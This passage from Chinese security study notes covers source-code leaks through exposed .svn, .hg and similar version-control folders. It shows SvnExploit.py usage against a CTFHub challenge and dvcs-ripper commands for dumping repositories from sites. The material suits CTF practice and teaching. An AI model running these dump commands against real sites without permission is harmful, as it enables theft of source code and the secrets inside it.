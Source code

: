 `--dump` 一下

这样源码就被我们dump下来了

```bash
# python3 SvnExploit.py -h
Usage: SvnExploit.py [options]

Options:
  -h, --help           show this help message and exit
  -u URL, --url=URL    TargetURL e.g.http://url/.svn
  --thread=THREAD_NUM  The thread num default is 5
  --dump               Dump file
```

###### 练习：ctfhub-web-信息泄露-svn泄露

![image-20240826194013674](../../../../repo/assets/24_2.信息收集/image-20240826194013674.png)

![image-20240826194246967](../../../../repo/assets/24_2.信息收集/image-20240826194246967.png)

![image-20240826194517470](../../../../repo/assets/24_2.信息收集/image-20240826194517470.png)

```
python3 ./SvnExploit.py -u http://challenge-b4521580a7e902c5.sandbox.ctfhub.com:10800/.svn
```

![image-20240826194634076](../../../../repo/assets/24_2.信息收集/image-20240826194634076.png)

```
python3 ./SvnExploit.py -u http://challenge-b4521580a7e902c5.sandbox.ctfhub.com:10800/.svn --dump
```

![image-20240826194730786](../../../../repo/assets/24_2.信息收集/image-20240826194730786.png)

##### HG泄露

```
inurl="hg"
```



###### dvcs-ripper

https://github.com/kost/dvcs-ripper.git

```bash
git clone https://github.com/kost/dvcs-ripper.git
cd dvcs-ripper

sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl
sudo apt-get install libparallel-forkmanager-perl libredis-perl libalgorithm-combinatorics-perl
sudo apt-get install cvs subversion git bzr mercurial

rip-git.pl -v -u http://www.example.com/.git/
rip-svn.pl -v -u http://www.example.com/.svn/
rip-hg.pl -v -u http://www.example.com/.hg/
rip-bzr.pl -v -u http://www.example.com/.bzr/
rip-cvs.pl -v -u http://www.example.com/CVS/
```
